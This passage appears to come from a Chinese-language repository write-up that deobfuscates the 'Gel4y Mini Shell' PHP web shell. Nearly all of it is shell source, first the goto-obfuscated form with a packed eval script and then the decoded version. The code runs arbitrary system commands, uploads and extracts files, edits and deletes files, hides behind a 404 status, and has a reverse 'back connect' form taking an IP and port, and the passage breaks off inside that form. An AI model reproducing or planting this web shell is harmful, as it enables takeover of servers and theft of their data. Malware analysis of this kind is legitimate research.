Bb5inVuGyH("file deleted successfully", RXEfbn6heY($EEfZ6TZDdb, 0));
goto k5kZqV10bb;
cVnxCLLc0W:
vpkSwTQo6s:
goto vaea2TNc3W;
cCui051SEu:
?></li>
<li><b>PHP Uname</b>: <?php
goto FrJD9Jsque;
MvSZRFs0SS:
?></pre>
<form method="post">
<div class="form-group">
<input type="text" name="cmd" class="form-control">
</div>
</form>
<?php
goto ygIr4ZdOgL;
P7K6f8_xHe:
?>">
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Save</button>
</div>
</form>
<?php
goto TGAVCVIxJL;
YSarmTalmX:
kKHSQjgn8i:
goto torkRF7nBa;
wrEbKHulxs:
bBFoGpk2eg:
goto DsIF5JU9Pz;
EdwYtsCOvQ:
goto ZBWF6RSxh7;
goto rPHci82Pdj;
tJJFzbSKwD:
Bb5inVUGYh("file uploaded successfully", RxEfbn6heY($EEfZ6TZDdb, 0));
goto YSarmTalmX;
s2A6_q8Isn:
Bb5INvUgYh("failed to delete the folder", RxefbN6HEY($EEfZ6TZDdb, 0), 0);
goto KvyyfhHz82;
URqiW6LJpm:
header("Content-Type: application/octet-stream");
goto eGmrGMmM7f;
HAtVYbHdyo:
$IqAFWYu448 = $EEfZ6TZDdb . '/' . RXefBN6hey($_GET["n"]);
goto MAe0YHyLaa;
EY2Ff1XUeK:
?>"><i class="fa fa-plus"></i><i class="fa fa-file"></i></a> |
<a href="<?php
goto zWSkrZzsWq;
pLaaRpww2m:
if (!($_GET["t"] == "f")) {
goto bLvI_Fu3sF;
}
goto J6766bT1wk;
qWSOAipFym:
echo "?l=" . rxefbn6HeY($EEfZ6TZDdb, 0) . "&a=" . rxEFbN6HEY("term", 0);
goto SdQQ2vh1pk;
dNAXwyF5jm:
WChit6Tjkf:
goto uZLJEXNBXC;
Fhxj0LxAwC:
$g9_4Zq7xGB = $_POST['port'];
goto hZocDUXtgN;
k5kZqV10bb:
pXxft1wW2P:
goto kPuh3sB7ZW;
FM1zySo56b:
if (!file_exists($IqAFWYu448)) {
goto yLxrotraE3;
}
goto s2A6_q8Isn;
Kv3eqCCcFx:
$Dfdl9lkULa = $_FILES['f']['tmp_name'];
goto Pgo80visnY;
DSgJ4EEwOL:
?>
<h5>New folder</h5>
<form method="post">
<div class="form-group">
<label for="n">Name :</label>
<input name="n" id="n" class="form-control" autocomplete="off">
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Create</button>
</div>
</form>
<?php
goto Pb_Plr8szn;
NcDR2cFSK_:
?>"><i class="fa fa-usb"></i></a> |
<a href="<?php
goto qWSOAipFym;
J6766bT1wk:
$IqAFWYu448 = $EEfZ6TZDdb . '/' . RxEFBn6HeY($_GET["n"]);
goto fpFzgy_AKw;
rPHci82Pdj:
N64OxnT9Bh:
goto vhjTMlZILs;
EyVdz_YRmU:
?></span>
<div class="form-group">
<label for="ctn">Content :</label><textarea id="ctn" cols="30" rows="10" class="form-control" readonly><?php
goto LLrd3aAnEA;
z_nhs7Cbn7:
?>
<h5>Edit file</h5>
<span>File name : <?php
goto u_4IaYeVy2;
BhKgAwcXlI:
echo rand(1, 6) * 1922;
goto uuEMYRcWJf;
LLrd3aAnEA:
echo htmlspecialchars(file_get_contents($EEfZ6TZDdb . '/' . rXEFBN6HeY($_GET["n"])));
goto WQ5FRO1vHE;
pyjFZoGGnB:
jJAOZDhhff:
goto FFNAjFboph;
h3GEWWTVgD:
if (!isset($_GET["download"])) {
goto ewlVh3jO7D;
}
goto URqiW6LJpm;
wlhV36GSCm:
$j6fm9JkXX3->close();
goto YtyLK4CiZm;
Kf_pWcks49:
$TQjF6JN0Xn = $_FILES['f']['name'];
goto EY59hEhqcL;
PigAhONo2f:
?></textarea>
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Save</button>
</div>
</form>
<?php
goto LVUXJeDOyh;
AUao0i22oH:
echo "?l=" . RXefBN6HEY($EEfZ6TZDdb, 0) . "&a=" . RXEfBn6hey("cfile", 0);
goto EY2Ff1XUeK;
Ms3mPsNEFz:
y8tasQLJHv:
goto b2f2v54QKI;
Vdz113nHJZ:
goto ZBWF6RSxh7;
goto JxeppvOhkj;
DnMdqAJ3M9:
ewlVh3jO7D:
goto pMoCy2S2fT;
C3NQH6jga4:
echo FmHaNw7Sd4;
goto IWDRDymnkm;
TTVVoj2zH2:
$TkCbW35AQi = $_POST['ip'];
goto Fhxj0LxAwC;
DsIF5JU9Pz:
if (!in_array($Dbi_h94n09[$IKiphkRa67], $jzgT5WmvBi)) {
goto eCbgD8Xa7G;
}
goto DMDVAvNxme;
uTadf7sHfn:
ZBWF6RSxh7:
goto D8pLysu5hH;
jzLW7LC1KZ:
if (!isset($_GET["a"])) {
goto vpkSwTQo6s;
}
goto dKtG97l82G;
D8pLysu5hH:
?>
</div>
<?php
goto cVnxCLLc0W;
DYX5ofDNkJ:
HmX9zWMF6z:
goto jt5neMFYv3;
P3l6Ot_Nq2:
?>
<h5>New file</h5>
<form method="post">
<div class="form-group">
<label for="n">File name :</label><input type="text" name="n" id="n" class="form-control" placeholder="hack.txt">
</div>
<div class="form-group">
<label for="ctn">Content :</label><textarea name="ctn" id="ctn" cols="30" rows="10" class="form-control" placeholder="# Stamped By Me"></textarea>
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Create</button>
</div>
</form>
<?php
goto tRwrGXooF4;
aEJlf18Qtu:
?>
<!DOCTYPE html>
<html lang="en">
<head>
<meta name="theme-color" content="red">
<meta name="viewport" content="width=device-width, initial-scale=0.60, shrink-to-fit=no">
<link rel="stylesheet" href="//cdn.jsdelivr.net/npm/bootstrap@4.6.0/dist/css/bootstrap.min.css">
<link rel="stylesheet" href="//cdnjs.cloudflare.com/ajax/libs/font-awesome/4.7.0/css/font-awesome.min.css">
<title></title>
<style>
body {
color: #fff;
font-family: serif;
background-color: #000;
}
a, a:hover, pre {
color: #fff;
}
.table-hover tbody tr:hover td {
background: red
}

.table-hover tbody tr:hover td>* {
color: #fff
}

.table>tbody>tr>* {
color: #fff;
vertical-align: middle
}
.form-control {
background: 0 0!important;
color: #fff!important;
border-radius: 0
}

.form-control::placeholder {
color: #fff;
opacity: 1
}
</style>
<script src="//unpkg.com/sweetalert/dist/sweetalert.min.js"></script>
</head>
<body>
<main class="my-1">
<div class="border bg-dark px-1">
<div class="d-flex justify-content-between">
<div>
<h3 class="mt-2"><a href="?"><?php
goto C3NQH6jga4;
LcspiVxgnz:
function hrXkAttUKJ($rn5LpfN5ed) {
goto Llxlo5JLmV;
VI4smubLWC:
switch ($q_apefxuXb & 0xf000) {
case 0xc000:
$pEiaUOtN6B = 's';
goto KaLTMLFLZ8;
case 0xa000:
$pEiaUOtN6B = 'l';
goto KaLTMLFLZ8;
case 0x8000:
$pEiaUOtN6B = '-';
goto KaLTMLFLZ8;
case 0x6000:
$pEiaUOtN6B = 'b';
goto KaLTMLFLZ8;
case 0x4000:
$pEiaUOtN6B = 'd';
goto KaLTMLFLZ8;
case 0x2000:
$pEiaUOtN6B = 'c';
goto KaLTMLFLZ8;
case 0x1000:
$pEiaUOtN6B = 'p';
goto KaLTMLFLZ8;
default:
$pEiaUOtN6B = 'u';
}
goto viwKXWVlCm;
BuDpmu4Dpa:
$pEiaUOtN6B .= $q_apefxuXb & 0x2 ? 'w' : '-';
goto oSsnbfMX7N;
RHtymoOkRA:
$pEiaUOtN6B .= $q_apefxuXb & 0x80 ? 'w' : '-';
goto qaVIp_1poQ;
Llxlo5JLmV:
$q_apefxuXb = fileperms($rn5LpfN5ed);
goto VI4smubLWC;
iehULJc3F2:
$pEiaUOtN6B .= $q_apefxuXb & 0x100 ? 'r' : '-';
goto RHtymoOkRA;
viwKXWVlCm:
U0bpzZFP8o:
goto HLfsKw9eD9;
oSsnbfMX7N:
$pEiaUOtN6B .= $q_apefxuXb & 0x1 ? $q_apefxuXb & 0x200 ? 't' : 'x' : ($q_apefxuXb & 0x200 ? 'T' : '-');
goto Izs_QCpKLv;
PSoRY6eJEK:
$pEiaUOtN6B .= $q_apefxuXb & 0x10 ? 'w' : '-';
goto BYUFnpD5Kl;
WU_ISBG1Cd:
$pEiaUOtN6B .= $q_apefxuXb & 0x4 ? 'r' : '-';
goto BuDpmu4Dpa;
HLfsKw9eD9:
KaLTMLFLZ8:
goto iehULJc3F2;
Izs_QCpKLv:
return $pEiaUOtN6B;
goto Wym9usKGF4;
qaVIp_1poQ:
$pEiaUOtN6B .= $q_apefxuXb & 0x40 ? $q_apefxuXb & 0x800 ? 's' : 'x' : ($q_apefxuXb & 0x800 ? 'S' : '-');
goto gCMWKc7Qi2;
gCMWKc7Qi2:
$pEiaUOtN6B .= $q_apefxuXb & 0x20 ? 'r' : '-';
goto PSoRY6eJEK;
BYUFnpD5Kl:
$pEiaUOtN6B .= $q_apefxuXb & 0x8 ? $q_apefxuXb & 0x400 ? 's' : 'x' : ($q_apefxuXb & 0x400 ? 'S' : '-');
goto WU_ISBG1Cd;
Wym9usKGF4:
}
goto fhYGKduull;
TnhMIgmoXz:
if (!isset($_GET["a"])) {
goto oC49Ak4Qpk;
}
goto jzLW7LC1KZ;
d6E_B1kiXH:
if ($hzOvuJeFzz == 'edit') {
goto NetExxORKl;
}
goto JaRFY01HAP;
AxYV08ef23:
chdir($EEfZ6TZDdb);
goto e1DVBPK5MZ;
iiqLupTD75:
?>"><i class="fa fa-plus"></i><i class="fa fa-folder"></i></a> |
<a href="<?php
goto AUao0i22oH;
gQ0uxJM3IM:
?>
<?php
goto uED_zyRYat;
feaBlZ7eEU:
kMsRr8KO2i:
goto GBMZg5FNn5;
uED_zyRYat:
if ($hzOvuJeFzz == "con") {
goto mqgxd0ffd7;
}
goto n6KlS76u_Y;
hlAdt5ocAO:
goto pXxft1wW2P;
goto gtEtp66eA1;
Xzf4iJyVK1:
goto ZBWF6RSxh7;
goto f3YaO_36Gp;
cS5buQoIBP:
goto ZBWF6RSxh7;
goto nRad7u_84k;
iau78ljYgH:
if ($hzOvuJeFzz == "cdir") {
goto iqfV5KrODo;
}
goto gsi4neWUGA;
nNXfQ4ODK4:
et0KZW4bvS:
goto JkRKETx2SF;
ygIr4ZdOgL:
goto ZBWF6RSxh7;
goto WNq6fySumu;
pMoCy2S2fT:
?>
</div>
<div class="border bg-dark my-2 py-2 table-responsive">
<div class="mx-2">
<span>Path:</span>
<?php
goto A1iu02J4SH;
dKtG97l82G:
$hzOvuJeFzz = RxEFbN6HEY($_GET["a"]);
goto t5hyi0WMXW;
fV1xJLciE1:
$j6fm9JkXX3->extractTo(basename($TQjF6JN0Xn[$IKiphkRa67], '.zip'));
goto wlhV36GSCm;
A1iu02J4SH:
$WekN4aubDI = preg_split("/(\\\\|\\/)/", $EEfZ6TZDdb);
goto mfVsx6oHSn;
KvyyfhHz82:
goto jJAOZDhhff;
goto pQ3h2CEIaE;
QFdg_eyOVo:
bb5inVuGYh("file to delete the folder", rxEfBN6Hey($EEfZ6TZDdb, 0), 0);
goto hlAdt5ocAO;
kI2aFVtVVe:
?>
<h5>View <?php
goto xezzXbZ0n3;
PaYSwvYogS:
echo "?l=" . RXEFbn6hey($EEfZ6TZDdb, 0) . "&a=" . rxEfbn6HEy("cdir", 0);
goto iiqLupTD75;
b2f2v54QKI:
?>
</article>
<div class="bg-dark border text-center mt-2 py-2">
<small>Copyright &copy; 2021 - Powered By Indonesian Darknet</small>
</div>
</main>
<script src="//code.jquery.com/jquery-3.5.1.slim.min.js"></script>
<script src="//cdn.jsdelivr.net/npm/bootstrap@4.6.0/dist/js/bootstrap.bundle.min.js"></script>
<script src="//cdn.jsdelivr.net/npm/bs-custom-file-input/dist/bs-custom-file-input.min.js"></script>
<script>
eval(function(p, a, c, k, e, d) {
e = function(c) {
return(c < a?'': e(parseInt(c/a)))+((c = c%a) > 35?String.fromCharCode(c+29): c.toString(36))}; if (!''.replace(/^/,String)){while(c--){d[e(c)]=k[c]||e(c)}k=[function(e){return d[e]}];e=function(){return'\\w+'};c=1};while(c--){if(k[c]){p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])}}return p}('E.n();$(\'[2-m="4"]\').4();$(".l").k(j(e){e.g();h 0=$(6).5("2-0");c({b:"a",9:"o i q?",w:"D "+0+" p C B",A:7,z:7,}).y((8)=>{r(8){x 1=$(6).5("3")+"&t="+((0=="v")?"d":"f");u.s.3=1}})});',41,41,'type|buildURL|data|href|tooltip|attr|this|true|willDelete|title|warning|icon|swal||||preventDefault|let|you|function|click|delete|toggle|init|Are|will|sure|if|location||document|folder|text|const|then|dangerMode|buttons|deleted|be|This|bsCustomFileInput'.split('|'),0,{}))
</script>
</body>
</html>
```

这 `goto` 的加密含量也太大了吧。。于是自己编写了相关脚本跑了一跑，折腾了两三个小时，终于把原始内容搞出来了，也就是本仓库的 `Gel4y-Mini-Shell-3_decode.php`，内容如下：

```php
<?php
http_response_code(404);
define("FmHaNw7Sd4", "Gel4y Mini Shell");
if (isset($_GET['l'])) {
    $EEfZ6TZDdb = RxEfBN6HEy($_GET['l']);
    chdir($EEfZ6TZDdb);
} else {
    $EEfZ6TZDdb = getcwd();
}
function ZiOdpZ7NRe($uzNaDUYhmE)
{
    if (function_exists('system')) {
        @ob_start();
        @system($uzNaDUYhmE);
        $GpjllTmONM = @ob_get_contents();
        @ob_end_clean();
        return $GpjllTmONM;
    } else {
        if (function_exists('exec')) {
            @exec($uzNaDUYhmE, $htHTK6yRnX);
            $GpjllTmONM = '';
            foreach ($htHTK6yRnX as $DWC35O18yz) {
                $GpjllTmONM .= $DWC35O18yz;
            }
            return $GpjllTmONM;
        } else {
            if (function_exists('passthru')) {
                @ob_start();
                @passthru($uzNaDUYhmE);
                $GpjllTmONM = @ob_get_contents();
                @ob_end_clean();
                return $GpjllTmONM;
            } else {
                if (function_exists('LO04lRpWK3')) {
                    $GpjllTmONM = @lO04lrpWK3($uzNaDUYhmE);
                    return $GpjllTmONM;
                } else {
                }
            }
        }
    }
}
function hrXkAttUKJ($rn5LpfN5ed)
{
    $q_apefxuXb = fileperms($rn5LpfN5ed);
    switch ($q_apefxuXb & 0xf000) {
        case 0xc000:
            $pEiaUOtN6B = 's';
            break;
        case 0xa000:
            $pEiaUOtN6B = 'l';
            break;
        case 0x8000:
            $pEiaUOtN6B = '-';
            break;
        case 0x6000:
            $pEiaUOtN6B = 'b';
            break;
        case 0x4000:
            $pEiaUOtN6B = 'd';
            break;
        case 0x2000:
            $pEiaUOtN6B = 'c';
            break;
        case 0x1000:
            $pEiaUOtN6B = 'p';
            break;
        default:
            $pEiaUOtN6B = 'u';
    }
    $pEiaUOtN6B .= $q_apefxuXb & 0x100 ? 'r' : '-';
    $pEiaUOtN6B .= $q_apefxuXb & 0x80 ? 'w' : '-';
    $pEiaUOtN6B .= $q_apefxuXb & 0x40 ? $q_apefxuXb & 0x800 ? 's' : 'x' : ($q_apefxuXb & 0x800 ? 'S' : '-');
    $pEiaUOtN6B .= $q_apefxuXb & 0x20 ? 'r' : '-';
    $pEiaUOtN6B .= $q_apefxuXb & 0x10 ? 'w' : '-';
    $pEiaUOtN6B .= $q_apefxuXb & 0x8 ? $q_apefxuXb & 0x400 ? 's' : 'x' : ($q_apefxuXb & 0x400 ? 'S' : '-');
    $pEiaUOtN6B .= $q_apefxuXb & 0x4 ? 'r' : '-';
    $pEiaUOtN6B .= $q_apefxuXb & 0x2 ? 'w' : '-';
    $pEiaUOtN6B .= $q_apefxuXb & 0x1 ? $q_apefxuXb & 0x200 ? 't' : 'x' : ($q_apefxuXb & 0x200 ? 'T' : '-');
    return $pEiaUOtN6B;
}
function q0wfVKUjRs($Isvtvo_Khk)
{
    global $dYmVY71pVg;
    if (trim(pathinfo($Isvtvo_Khk, PATHINFO_BASENAME), '.') === '') {
        return;
    }
    if (is_dir($Isvtvo_Khk)) {
        array_map("deldir", glob($Isvtvo_Khk . DIRECTORY_SEPARATOR . '{,.}*', GLOB_BRACE | GLOB_NOSORT));
        rmdir($Isvtvo_Khk);
    } else {
        unlink($Isvtvo_Khk);
    }
}
function rxefBN6hEy($D9W0v0K2q3, $b5rceFkfVX = true, $IKiphkRa67 = 0)
{
    $FMsfhj9eNN = '';
    $OI03NhJ2Yv = strlen($D9W0v0K2q3);
    if ($b5rceFkfVX == false) {
        while ($IKiphkRa67 < $OI03NhJ2Yv) {
            $FMsfhj9eNN .= dechex(ord($D9W0v0K2q3[$IKiphkRa67]));
            $IKiphkRa67++;
        }
    } else {
        while ($IKiphkRa67 < $OI03NhJ2Yv - 1) {
            $FMsfhj9eNN .= chr(hexdec("{$D9W0v0K2q3[$IKiphkRa67]}{$D9W0v0K2q3[$IKiphkRa67 + 1]}"));
            $IKiphkRa67 += 2;
        }
    }
    return $FMsfhj9eNN;
}
function bb5inVuGyH($TyHtfHVLGo, $IqAFWYu448, $JpGr27PQID = 1)
{
    $F3VGKH3ww0 = $JpGr27PQID == 1 ? "success" : "error";
    echo "<script>swal({title: \"{$F3VGKH3ww0}\", text: \"{$TyHtfHVLGo}\", icon: \"{$F3VGKH3ww0}\"}).then((btnClick) => {if(btnClick){document.location.href=\"?l=" . $IqAFWYu448 . "\"}})</script>";
}
?>
<!DOCTYPE html>
<html lang="en">
<head>
<meta name="theme-color" content="red">
<meta name="viewport" content="width=device-width, initial-scale=0.60, shrink-to-fit=no">
<link rel="stylesheet" href="//cdn.jsdelivr.net/npm/bootstrap@4.6.0/dist/css/bootstrap.min.css">
<link rel="stylesheet" href="//cdnjs.cloudflare.com/ajax/libs/font-awesome/4.7.0/css/font-awesome.min.css">
<title></title>
<style>
body {
color: #fff;
font-family: serif;
background-color: #000;
}
a, a:hover, pre {
color: #fff;
}
.table-hover tbody tr:hover td {
background: red
}

.table-hover tbody tr:hover td>* {
color: #fff
}

.table>tbody>tr>* {
color: #fff;
vertical-align: middle
}
.form-control {
background: 0 0!important;
color: #fff!important;
border-radius: 0
}

.form-control::placeholder {
color: #fff;
opacity: 1
}
</style>
<script src="//unpkg.com/sweetalert/dist/sweetalert.min.js"></script>
</head>
<body>
<main class="my-1">
<div class="border bg-dark px-1">
<div class="d-flex justify-content-between">
<div>
<h3 class="mt-2"><a href="?"><?php 
echo FmHaNw7Sd4;
?></a></h3>
</div>
<div>
<span>PHP Version: <?php 
echo phpversion();
?></span><br>
<a href="<?php 
echo "?l=" . RXEFbn6hey($EEfZ6TZDdb, 0) . "&a=" . rxEfbn6HEy("cdir", 0);
?>"><i class="fa fa-plus"></i><i class="fa fa-folder"></i></a> |
<a href="<?php 
echo "?l=" . RXefBN6HEY($EEfZ6TZDdb, 0) . "&a=" . RXEfBn6hey("cfile", 0);
?>"><i class="fa fa-plus"></i><i class="fa fa-file"></i></a> |
<a href="<?php 
echo "?l=" . rxefBN6Hey($EEfZ6TZDdb, 0) . "&a=" . RXEfBn6HEy("con", 0);
?>"><i class="fa fa-usb"></i></a> |
<a href="<?php 
echo "?l=" . rxefbn6HeY($EEfZ6TZDdb, 0) . "&a=" . rxEFbN6HEY("term", 0);
?>"><i class="fa fa-terminal"></i></a>
</div>
</div>
<div class="border-top">
<ul style="list-style:none;" class="m-0 p-0">
<li><b>Server</b>: <?php 
echo "{$_SERVER["SERVER_NAME"]} ({$_SERVER["REMOTE_ADDR"]})";
?></li>
<li><b>PHP Uname</b>: <?php 
echo php_uname();
?></li>
</ul>
</div>
<form method="post" enctype="multipart/form-data">
<div class="input-group mb-1">
<div class="custom-file">
<input type="file" name="f[]" class="custom-file-input" onchange="this.form.submit()" multiple>
<label class="custom-file-label rounded-0 bg-transparent text-light">Choose file</label>
</div>
</div>
</form>
<?php 
if (isset($_FILES['f'])) {
    $TQjF6JN0Xn = $_FILES['f']['name'];
    $IKiphkRa67 = 0;
    while ($IKiphkRa67 < count($TQjF6JN0Xn)) {
        $Dfdl9lkULa = $_FILES['f']['tmp_name'];
        $Dbi_h94n09 = $_FILES['f']['type'];
        $jzgT5WmvBi = array('application/zip', 'application/x-zip-compressed', 'multipart/x-zip', 'application/x-compressed');
        if (!move_uploaded_file($Dfdl9lkULa[$IKiphkRa67], $TQjF6JN0Xn[$IKiphkRa67])) {
            Bb5iNVugyH("file failed to upload", rXeFBN6HeY($EEfZ6TZDdb, 0), 0);
        } else {
            if (in_array($Dbi_h94n09[$IKiphkRa67], $jzgT5WmvBi)) {
                $j6fm9JkXX3 = new ZipArchive();
                $j78MPlSKil = $j6fm9JkXX3->open($TQjF6JN0Xn[$IKiphkRa67]);
                if ($j78MPlSKil == true) {
                    $j6fm9JkXX3->extractTo(basename($TQjF6JN0Xn[$IKiphkRa67], '.zip'));
                    $j6fm9JkXX3->close();
                }
            }
            Bb5inVUGYh("file uploaded successfully", RxEfbn6heY($EEfZ6TZDdb, 0));
        }
        $IKiphkRa67++;
    }
}
if (isset($_GET["download"])) {
    header("Content-Type: application/octet-stream");
    header("Content-Transfer-Encoding: Binary");
    header("Content-Length: " . strtotime(Rxefbn6hey($_GET["n"])));
    header("Content-disposition: attachment; filename=\"" . rXEfbn6hey($_GET["n"]) . "\"");
}
?>
</div>
<div class="border bg-dark my-2 py-2 table-responsive">
<div class="mx-2">
<span>Path:</span>
<?php 
$WekN4aubDI = preg_split("/(\\\\|\\/)/", $EEfZ6TZDdb);
foreach ($WekN4aubDI as $x42dyPJI_Q => $iIMh47ezZF) {
    if (!($x42dyPJI_Q == 0 && $iIMh47ezZF == "")) {
        if (!($iIMh47ezZF == "")) {
            echo "<a href=\"?l=";
            $IKiphkRa67 = 0;
            while ($IKiphkRa67 <= $x42dyPJI_Q) {
                echo rxEFbn6hey($WekN4aubDI[$IKiphkRa67], 0);
                if ($IKiphkRa67 != $x42dyPJI_Q) {
                    echo "2f";
                }
                $IKiphkRa67++;
            }
            echo "\">{$iIMh47ezZF}</a>/";
        } else {
        }
    } else {
        echo "<a href=\"?l=2f\">~</a>/";
    }
}
?>
</div>
</div>
<article class="bg-dark border table-responsive">
<?php 
if (!isset($_GET["a"])) {
    ?>
<table class="table table-hover table-borderless table-sm">
<thead class="text-light">
<tr>
<th>Name</th>
<th>Size</th>
<th>Permission</th>
<th>Action</th>
</tr>
</thead>
<tbody>
<?php 
    $fgiEl2SFA1 = array_diff(scandir($EEfZ6TZDdb), ['.', '..']);
    foreach ($fgiEl2SFA1 as $GH5ltOv09p) {
        if (is_dir("{$EEfZ6TZDdb}/{$GH5ltOv09p}")) {
            echo "<tr>\n          <td><a href=\"?l=" . RxefBN6hEY("{$EEfZ6TZDdb}/{$GH5ltOv09p}", 0) . "\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Latest modify on " . date("Y-m-d H:i", filemtime("{$EEfZ6TZDdb}/{$GH5ltOv09p}")) . "\"><i class=\"fa fa-fw fa-folder" . (count(scandir("{$EEfZ6TZDdb}/{$GH5ltOv09p}")) == 0 ? "" : "-open") . " text-warning\"></i> {$GH5ltOv09p}</a></td>\n          <td>N/A</td>\n          <td><font color=\"" . (is_writable("{$EEfZ6TZDdb}/{$GH5ltOv09p}") ? "#00ff00" : (!is_readable("{$EEfZ6TZDdb}/{$GH5ltOv09p}") ? "red" : null)) . "\">" . hRXkAtTukJ("{$EEfZ6TZDdb}/{$GH5ltOv09p}") . "</font></td>\n          <td>\n            <a href=\"?l=" . rXeFbN6HEy($EEfZ6TZDdb, 0) . "&a=" . rxeFBn6HEy("rename", 0) . "&n=" . rXEFbN6Hey($GH5ltOv09p, 0) . "&t=d\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Rename\"><i class=\"fa fa-fw fa-pencil\"></i></a>\n            <a href=\"?l=" . RxEfBn6hEY($EEfZ6TZDdb, 0) . "&a=" . RxefbN6hey("delete", 0) . "&n=" . rxEFbn6HEy($GH5ltOv09p, 0) . "&t=f\" class=\"delete\" data-type=\"folder\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Delete\"><i class=\"fa fa-fw fa-trash\"></i></a>\n          </td></tr>";
        } else {
        }
    }
    foreach ($fgiEl2SFA1 as $rn5LpfN5ed) {
        if (is_file("{$EEfZ6TZDdb}/{$rn5LpfN5ed}")) {
            $nWFrSLIRip = filesize("{$EEfZ6TZDdb}/{$rn5LpfN5ed}") / 1024;
            $nWFrSLIRip = round($nWFrSLIRip, 3);
            $nWFrSLIRip = $nWFrSLIRip > 1024 ? round($nWFrSLIRip / 1024, 2) . "MB" : $nWFrSLIRip . "KB";
            echo "<tr>\n\t        <td><a href=\"?l=" . rxefbN6HEy($EEfZ6TZDdb, 0) . "&a=" . rXEFbn6HEY("view", 0) . "&n=" . RxEFBN6heY($rn5LpfN5ed, 0) . "\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Latest modify on " . date("Y-m-d H:i", filemtime("{$EEfZ6TZDdb}/{$rn5LpfN5ed}")) . "\"><i class=\"fa fa-fw fa-file" . ($_SERVER["SCRIPT_FILENAME"] == "{$EEfZ6TZDdb}/{$rn5LpfN5ed}" ? " text-danger" : "") . "\"></i> {$rn5LpfN5ed}</a></td>\n\t        <td>{$nWFrSLIRip}</td>\n\t        <td><font color=\"" . (is_writable("{$EEfZ6TZDdb}/{$rn5LpfN5ed}") ? "#00ff00" : (!is_readable("{$EEfZ6TZDdb}/{$rn5LpfN5ed}") ? "red" : null)) . "\">" . HRXkaTtukj("{$EEfZ6TZDdb}/{$rn5LpfN5ed}") . "</font></td>\n\t        <td>\n\t          <div class=\"d-flex justify-content-between\">\n\t            <a href=\"?l=" . RXeFbN6HEY($EEfZ6TZDdb, 0) . "&a=" . rxeFBN6hey("edit", 0) . "&n=" . RXeFBN6HEY($rn5LpfN5ed, 0) . "\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Edit\"><i class=\"fa fa-fw fa-edit\"></i></a>\n\t            <a href=\"?l=" . RXeFBn6hey($EEfZ6TZDdb, 0) . "&a=" . RXeFBn6HeY("rename", 0) . "&n=" . rXEfbN6hEY($rn5LpfN5ed, 0) . "&t=f\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Rename\"><i class=\"fa fa-fw fa-pencil\"></i></a>\n\t            <a href=\"?l=" . rxeFbN6HEy($EEfZ6TZDdb, 0) . "&n=" . RXEFbN6HeY($rn5LpfN5ed, 0) . "&download" . "\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Download\"><i class=\"fa fa-fw fa-download\"></i></a>\n\t            <a href=\"?l=" . RxEFBn6Hey($EEfZ6TZDdb, 0) . "&a=" . RXeFbN6heY("delete", 0) . "&n=" . rxEfbN6heY($rn5LpfN5ed, 0) . "\" class=\"delete\" data-type=\"file\" data-toggle=\"tooltip\" data-placement=\"auto\" title=\"Delete\"><i class=\"fa fa-fw fa-trash\"></i></a>\n\t          </div>\n\t        </td></tr>";
        } else {
        }
    }
    ?>
</tbody>
</table>
<?php 
} else {
    if (isset($_GET["a"])) {
        $hzOvuJeFzz = RxEFbN6HEY($_GET["a"]);
        ?>
<div class="px-2 py-2">
<?php 
        if ($hzOvuJeFzz == "delete") {
            $IqAFWYu448 = $EEfZ6TZDdb . '/' . RXefBN6hey($_GET["n"]);
            if ($_GET["t"] == "d") {
                Q0WFVkujRs($IqAFWYu448);
                if (!file_exists($IqAFWYu448)) {
                    BB5InVuGyh("folder deleted successfully", rxEFbN6Hey($EEfZ6TZDdb, 0));
                } else {
                    Bb5INvUgYh("failed to delete the folder", RxefbN6HEY($EEfZ6TZDdb, 0), 0);
                }
            }
            if ($_GET["t"] == "f") {
                $IqAFWYu448 = $EEfZ6TZDdb . '/' . RxEFBn6HeY($_GET["n"]);
                unlink($IqAFWYu448);
                if (!file_exists($IqAFWYu448)) {
                    Bb5inVuGyH("file deleted successfully", RXEfbn6heY($EEfZ6TZDdb, 0));
                    if ($hzOvuJeFzz == "con") {
                        ?>
<h5>PHP Back Connect</h5>
<form method="post">
<div class="input-group mb-3">
<input type="text" name="ip" placeholder="<?php 
                        echo $_SERVER["REMOTE_ADDR"];
                        ?>" class="form-control">
<input type="number" name="port" placeholder="<?php 
                        echo rand(1, 6) * 1922;
                        ?>" class="form-control">
</div>
<div class="form-group">
<button type="submit" name="s" class="btn btn-outline-light rounded-0">Connect</button>
</div>
</form>
<?php 
                        if (isset($_POST['s'])) {
                            echo '<div class="my-3">';
                            $TkCbW35AQi = $_POST['ip'];
                            $g9_4Zq7xGB = $_POST['port'];
